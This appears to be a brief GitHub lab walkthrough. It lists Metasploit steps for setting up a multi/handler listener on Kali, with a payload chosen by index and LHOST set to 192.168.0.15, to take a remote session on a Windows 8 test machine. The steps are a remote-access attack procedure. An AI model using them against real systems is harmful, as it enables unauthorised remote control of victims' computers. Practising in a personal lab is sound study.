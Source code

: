 ## STEP:

Check your **IP ADDRESS** for both your kali and your windows8 system ensure to ping to both devices and get a response, go to your kali and start your **POSTGRESQL START** and also your **MSFDB INIT** service.

-**START YOUR MSFCONSOLE**.
-**SEARCH MULTI/HANDLER**.
-**USE 7**.
-**SHOW PAYLOADS**.
-**SET PAYLOAD 1315**.
-**SHOW OPTIONS**.
-**SET LHOST TO YOUR IP ADDRESS 192.168.0.15**.
-**SHOW OPTIONS.**
_**EXPLOIT -j**
-**RUN**
TYPE HELP FOR OTHER OPTIONS ON YOUR WINDOWS SYSTEM.

### contribu:
feel free to share your own experience 
### MICHAEL22



